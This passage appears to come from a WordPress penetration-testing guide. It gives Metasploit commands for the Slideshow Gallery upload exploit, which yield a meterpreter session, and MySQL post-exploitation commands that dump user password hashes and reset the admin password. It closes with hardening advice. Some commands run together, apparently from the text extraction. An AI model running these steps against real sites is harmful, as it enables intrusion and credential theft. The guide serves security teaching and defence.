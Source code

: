 You will get exploit for this vulnerability inside Metasploit framework and thus load the below module and execute the following command:

1234
	

use exploit/unix/webapp/wp_slideshowgallery_uploadset rhosts 192.168.1.101set targeturi /wordpressexploit

As the above commands are executed, you will have your meterpreter session. Just as portrayed in this article, there are multiple methods to exploit a WordPress platformed website.
Post Exploitation

Extract usernames and passwords:

mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"

Change admin password:

mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"

WordPress Protection
Regular Updates

Make sure WordPress, plugins, and themes are up to date. Also confirm that automated updating is enabled in wp-config.php:

define( 'WP_AUTO_UPDATE_CORE', true );
add_filter( 'auto_update_plugin', '__return_true' );
add_filter( 'auto_update_theme', '__return_true' );

Also, only install trustable WordPress plugins and themes.
Security Plugins

    ​Wordfence Security​

    ​Sucuri Security​

    ​iThemes Security​

Other Recommendations

    Remove default admin user

    Use strong passwords and 2FA

    Periodically review users permissions

    Limit login attempts to prevent Brute Force attacks

    Rename wp-admin.php file and only allow access internally or from certain IP addresses.
